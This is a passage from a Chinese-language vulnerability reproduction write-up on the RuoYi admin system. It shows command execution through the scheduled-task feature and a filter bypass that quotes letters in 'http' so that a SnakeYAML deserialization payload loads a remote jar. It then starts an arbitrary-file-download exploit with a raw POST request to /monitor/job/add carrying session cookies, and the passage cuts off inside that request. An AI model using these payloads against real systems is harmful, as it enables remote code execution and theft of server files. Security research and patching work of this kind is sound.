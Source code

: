 ![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwU7UffkZvdzrQJGAlqwXFgfow0AG5ib1b1HHzBa4Q7KF0rOcwgkWHbPAA/640?wx_fmt=png&from=appmsg "")  
  
cron表达式：  
0/10 * * * * ?  
这个cron就跟linux定时任务一样,定义每天/每周/等,定时启动的时间  
配置好之后,并不会启动定时任务![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUwuAib5Fr5S9tJIOFnPKvUicU2VSh29JQG3BxXy48QicHVnLEzTia7eghXw/640?wx_fmt=png&from=appmsg "")  
  
计划任务启动之后，即可执行命令mspaint(弹出画图板)![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUB3fI5JGD9vzppRAdYhzcHO4aSqHQ6n9tjmh1A7WBIjBwiaX2LH7FoPg/640?wx_fmt=png&from=appmsg "")  
  
### 版本4.6.2<=Ruoyi<4.7.2  
  
这个版本采用了黑名单限制调用字符串  
- 定时任务屏蔽ldap远程调用  
  
- 定时任务屏蔽http(s)远程调用  
  
- 定时任务屏蔽rmi远程调用![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUSJmpCAmubkHSIYezAM9HQqE3ZJeOe8iaYSribA2FBPniaWTKtebLMriayw/640?wx_fmt=png&from=appmsg "")  
  
ypass  
咱们只需要在屏蔽的协议加上单引号,接着采用之前的方式  
例如:  
  
  
- ```
org.yaml.snakeyaml.Yaml.load(‘!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“h’t’t’p’://127.0.0.1:88/yaml-payload.jar”]]]]’)
```  
  
-   
- 加引号![](https://mmbiz.qpic.cn/mmbiz_png/42JicKqUklyhTTKiad38Hia6rB9VSXB1XwUMOz1w1ovTSwtzFq68PXHfQicvia3icLQmnibVOHjSXjS0gycrLibds49lRA/640?wx_fmt=png&from=appmsg "")  
  
  
## 若依后台任意文件下载漏洞  
### 漏洞简介  
  
若依管理系统后台存在任意文件下载漏洞。影响版本：若依管理系统4.7.6及以下版本  
### 漏洞复现  
  
漏洞利用前提：登录进后台。  
首先提交一个定时任务。  
```
POST /monitor/job/add HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 188
Connection: close
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=61e79ae9-8cdd-4e51-baac-d269ef551df3
